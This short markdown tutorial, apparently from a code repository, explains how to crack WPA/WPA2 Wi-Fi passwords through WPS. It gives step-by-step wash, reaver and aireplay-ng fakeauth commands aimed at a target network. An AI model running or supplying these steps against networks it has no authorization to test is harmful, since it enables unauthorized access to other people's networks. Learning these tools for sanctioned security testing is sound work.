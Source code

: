# WPA & WPA-2 Cracking using WPS Feature

First we need to check if the network has WPS enabled
 ```bash
wash --interface wlan0
 ``` 
If this command does not work we can simply use **airodump-ng** to get the information we need
and just make a try for the attack

1. we need to run a reaver command which will do tha WPS cracking for us
 ```bash
reaver --bssid <NetworkMAC> --channel <NetworkChannel> --interface <InterfaceName> - vvv --no-associate
 ``` 
> argument -vvv is to see as much information as possible
> argument --no-associate is to tell reaver we don't want to associate with the network because we are going to do it manually
2. Once the reaver command is launch we need to associate to the network using the **fakeauth** attack
 ```bash
aireplay-ng --fakeauth 30 -a <NetworkMac> -h <InterfaceMac> <InterfaceName>
 ``` 
